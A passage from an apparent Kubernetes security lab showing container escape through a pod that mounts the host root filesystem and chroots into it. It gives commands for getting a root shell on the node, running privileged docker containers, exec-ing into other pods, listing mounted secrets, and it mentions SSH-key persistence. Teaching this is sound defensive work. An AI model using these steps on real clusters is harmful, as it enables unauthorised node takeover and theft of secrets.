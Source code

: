 Exit out of this pod by typing:

```console
exit
```

### Deploy a pod that mounts the host filesystem

One of the simplest paths for "escaping" to the underlying host is by mounting the host's filesystem into the pod's filesystem using standard Kubernetes `volumes` and `volumeMounts` in a `Pod` specification.

To demonstrate this, run the following to create a Pod that mounts the underlying host filesystem `/` at the folder named `/rootfs` inside the container:

```console
kubectl apply -f manifests/hostpath.yml
```

Run `kubectl get pod` and re-run until it's in the "Running" state:

```console
kubectl get pod

NAME       READY   STATUS    RESTARTS   AGE
hostpath   1/1     Running   0          30s
```

### Explore and compromise the underlying host

Run the following to obtain a shell inside the pod you just created:

```console
kubectl exec -it hostpath -- bash
```

Switch to the pod shell's root filesystem point to that of the underlying host:

```console
chroot /rootfs /bin/bash

hostpath / #
```

With those simple commands, the pod is now effectively a `root` shell on the node. You are now able to do the following:

| run the standard docker command with full permissions                          | `docker ps`                                          |
|--------------------------------------------------------------------------------|------------------------------------------------------|
| list all local docker images                                                   | `docker images`                                      |
| `docker run` privileged container of your choosing                             | `docker run --privileged <imagename>:<imageversion>` |
| examine the Kubernetes secrets mounted on the node                             | `mount \| grep volumes \| awk '{print $3}' \| xargs ls` |
| `exec` into any running container (even into another pod in another namespace) | `docker exec -it <docker container ID> sh`           |

Nearly every operation that the `root` user can perform is available to this pod shell.  This includes persistence mechanisms like adding SSH users/keys, running privileged docker containers on the host outside the view of Kubernetes, and much more.
